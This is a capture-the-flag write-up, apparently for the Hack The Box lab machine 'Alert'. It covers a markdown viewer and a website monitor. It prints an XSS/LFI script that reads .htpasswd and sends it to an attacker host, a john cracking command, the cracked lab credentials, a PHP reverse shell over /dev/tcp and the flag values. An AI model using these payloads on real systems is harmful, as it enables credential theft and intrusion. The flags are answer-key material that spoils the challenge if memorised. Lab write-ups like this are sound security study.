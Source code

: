 ```yaml
---
sticker: emoji//1f534
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 80   | http    |

We need to add `alert.htb` to `/etc/hosts` in order to access the website

`echo 'IP alert.htb' | sudo tee -a /etc/hosts`

Nice, let's begin with reconnaissance.
# RECONNAISSANCE
---

When we first access the website, we can find this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250110145426.png)

It is a markdown viewer website, we can only upload files with a `.md` extension, which is the markdown extension, let's upload a file and analyze its behavior using burp:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250110150021.png)


# EXPLOITATION
---


The server basically processes the file with a function called `visualizer.php`, we need to upload a malicious `.md` file, I found we can perform [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/LOCAL FILE INCLUSION (LFI).md|LFI]] let's reproduce these steps:

```js
<script>
fetch("http://alert.htp/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://IP:PORT/?file_content=" + encodeURIComponent(data));
  });
</script>
```

We are using `statistics.alert.htb` since I found that subdomain while fuzzing, it needed credentials.


```ad-hint
1. Upload a markdown file with the script embedded above.
2. Set up a python server to get the contents of the file we are going to read.
3. Receive the data in our python server.


##### Output
----
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250110154608.png)

We got the following data from `.htpasswd`, htpasswd is used to create and update the flat-files used to store usernames and password for basic authentication of HTTP users.

It is url encoded, so, we get this: 

`%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A`

When we decode the data:

`<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>`

Let's use john to crack the hash, we can use the following command: 

`john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash.txt`

We get the following output:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250110155239.png)

So, we got the following credentials:

`albert`:`manchesterunited`
```

Let's log into ssh with the found credentials:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250110155457.png)

We are able to read `user.txt`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250110155516.png)

```ad-important
User: `c0ebbe25578f5ccb7a536e93d4e69238`
```


Let's begin PRIVESC

# PRIVILEGE ESCALATION
---


Let's run linpeas:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250110160337.png)

First, there's something running on port `8080`, let's use ssh tunneling, but I also found something interesting:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250110160647.png)

There's a directory that has root access, let's reproduce the following steps in order to get a root shell:

```php
<?php
exec("/bin/bash -c 'bash -i >/dev/tcp/IP/PORT 0>&1'");
?>
```

```ad-hint
1. Create a `.php` file with the contents above, save the file at `opt/website-monitor/config`
2. Use ssh tunneling to view the contents of the website running on port `8080`: `ssh -L 8080:127.0.0.1:8080 albert@alert.htb`.
3. Set up listener regarding the port we specified in the file we created.
4. Visit `127.0.0.1:8080/nameofthefileuploaded.php` 
5. Receive root connection on our listening netcat.

### Output
----

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250110161332.png)

```

We got a root shell, let's read flag:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250110161352.png)

```ad-important
root: `f6a8586a751b4a7f1203d20b0fef1e6a`
```

